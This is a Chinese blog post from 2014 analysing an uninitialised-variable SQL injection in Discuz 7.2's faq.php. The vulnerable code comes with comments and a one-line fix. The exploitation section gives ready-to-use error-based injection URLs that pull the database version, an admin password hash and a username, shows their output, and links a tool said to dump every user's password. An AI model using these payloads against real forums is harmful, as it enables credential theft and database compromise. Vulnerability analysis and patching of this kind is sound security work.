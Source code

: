 Title: Discuz7.2及以下版本通杀漏洞分析
Date: 2014-07-03 06:08
Tags: Discuz


2014年7月2日真是个好日子，Discuz7.2及以下版本爆出一个惊天大漏洞，黑客可以直接脱库，甚至可以直接可以写入webshell


#### **1、漏洞代码分析**

请看下面注释分析，其实问题很简单，没有初始化变量，导致用户可以覆盖变量，引起注入。但凡做过开发的同学应该都知道，这个其实是一个很容易犯错的地方。在开发c、c++的时候有pclint工具可以检查，只要使用前没有初始化就报警，这类问题得到了很好的抑制。但脚本语言似乎并没有很好的工具，光靠人的编程技能，还是很难控制以后不会犯同样的错误。Discuz范的这个错误肯定不是偶然的，类似问题其它的网站或轻或重的应该也会存在的。

<code>

} elseif($action == 'grouppermission') {

	require_once './include/forum.func.php';
	require_once language('misc');
	$permlang = $language;
	unset($language);

	$searchgroupid = isset($searchgroupid) ? intval($searchgroupid) : $groupid;
    /* 此处没有对数组变量gids初始化 */
	$groups = $grouplist = array();
	$query = $db->query("SELECT groupid, type, grouptitle, radminid FROM {$tablepre}usergroups ORDER BY (creditshigher<>'0' || creditslower<>'0'), creditslower");
	$cgdata = $nextgid = '';
	while($group = $db->fetch_array($query)) {
		$group['type'] = $group['type'] == 'special' && $group['radminid'] ? 'specialadmin' : $group['type'];
		$groups[$group['type']][] = array($group['groupid'], $group['grouptitle']);
		$grouplist[$group['type']] .= '<option value="'.$group['groupid'].'"'.($searchgroupid == $group['groupid'] ? ' selected="selected"' : '').'>'.$group['grouptitle'].($groupid == $group['groupid'] ? ' &larr;' : '').'</option>';
		if($group['groupid'] == $searchgroupid) {
			$cgdata = array($group['type'], count($groups[$group['type']]) - 1, $group['groupid']);
		}
    }

    /* 根据不同的情况对gids前4位变量进行赋值 */
	if($cgdata[0] == 'member') {
		$nextgid = $groups[$cgdata[0]][$cgdata[1] + 1][0];
		if($cgdata[1] > 0) {
			$gids[1] = $groups[$cgdata[0]][$cgdata[1] - 1];
		}
		$gids[2] = $groups[$cgdata[0]][$cgdata[1]];
		if($cgdata[1] < count($groups[$cgdata[0]]) - 1) {
			$gids[3] = $groups[$cgdata[0]][$cgdata[1] + 1];
			if(count($gids) == 2) {
				$gids[4] = $groups[$cgdata[0]][$cgdata[1] + 2];
			}
		} elseif(count($gids) == 2) {
			$gids[0] = $groups[$cgdata[0]][$cgdata[1] - 2];
		}
	} else {
		$gids[1] = $groups[$cgdata[0]][$cgdata[1]];
	}
	ksort($gids);
    $groupids = array();

    /* 将gids内容拷贝到数组变量groupids中 */
	foreach($gids as $row) {
		$groupids[] = $row[0];
	}

    /* 利用groupids中的内容查询数据，由于gids变量没有初始化，用户可以构造一个请求对gids变量进行覆盖，导致groupids可控，只要闭合下面的IN()，即可注入 */
	$query = $db->query("SELECT * FROM {$tablepre}usergroups u LEFT JOIN {$tablepre}admingroups a ON u.groupid=a.admingid WHERE u.groupid IN (".implodeids($groupids).")");
	$groups = array();
	while($group = $db->fetch_array($query)) {
		$group['maxattachsize'] = $group['maxattachsize'] / 1024;

</code>


#### **2、利用方法**

1、url中传入gids变量，需要闭合in，并利用mysql的floor报错注入法即可实现，如下输入，可以爆出数据库版本

    http://172.16.28.132/Discuz/Discuz_7.2_SC_UTF8/upload/faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=)%20and%20(select%201%20from%20(select%20count(*),concat(version(),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)%23

输出结果

    Discuz! info: MySQL Query Error
    
    Time: 2014-7-3 7:01am
    Script: /Discuz/Discuz_7.2_SC_UTF8/upload/faq.php

    SQL: SELECT * FROM [Table]usergroups u LEFT JOIN [Table]admingroups a ON u.groupid=a.admingid WHERE u.groupid IN ('7','\',') and (select 1 from (select count(*),concat(version(),floor(rand(0)*2))x from information_schema.tables group by x)a)#')
    Error: Duplicate entry '5.1.28-rc-community1' for key 'group_key'
    Errno.: 1062
    

2、只需要替换上面的version()，即可实现任意的注入操作，如下输入可以爆出数据库的密码

    http://172.16.28.132/Discuz/Discuz_7.2_SC_UTF8/upload/faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=)%20and%20(select%201%20from%20(select%20count(*),concat((select password from cdb_members limit 1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)%23

输出结果

    Discuz! info: MySQL Query Error
    
    Time: 2014-7-3 7:06am
    Script: /Discuz/Discuz_7.2_SC_UTF8/upload/faq.php
        
    SQL: SELECT * FROM [Table]usergroups u LEFT JOIN [Table]admingroups a ON u.groupid=a.admingid WHERE u.groupid IN ('7','\',') and (select 1 from (select count(*),concat((select password from [Table]members limit 1),floor(rand(0)*2))x from information_schema.tables group by x)a)#')
    Error: Duplicate entry '0644bf56b4ed45878f306b5f19dc1e0e1' for key 'group_key'
    Errno.: 1062
    

3、只需要替换上面的version()，即可实现任意的注入操作，如下输入可以爆出数据库的用户名

    http://172.16.28.132/Discuz/Discuz_7.2_SC_UTF8/upload/faq.php?action=grouppermission&gids[99]=%27&gids[100][0]=)%20and%20(select%201%20from%20(select%20count(*),concat((select username from cdb_members limit 1),floor(rand(0)*2))x%20from%20information_schema.tables%20group%20by%20x)a)%23

输出结果

    Discuz! info: MySQL Query Error
    
    Time: 2014-7-3 7:07am
    Script: /Discuz/Discuz_7.2_SC_UTF8/upload/faq.php
    
    SQL: SELECT * FROM [Table]usergroups u LEFT JOIN [Table]admingroups a ON u.groupid=a.admingid WHERE u.groupid IN ('7','\',') and (select 1 from (select count(*),concat((select username from [Table]members limit 1),floor(rand(0)*2))x from information_schema.tables group by x)a)#')
    Error: Duplicate entry 'admin1' for key 'group_key'
    Errno.: 1062
    

4、利用上面的思路自己写了一个小软件，可以读取所有的用户用密码

[工具源码下载链接](static/code/diz7.2.py)

运行效果截图

![Alt text](/static/images/diz7.2.GIF)


#### **3、修复方法**

将如下代码

    $groups = $grouplist = array();

修改为

    $groups = $grouplist = $gids = array();

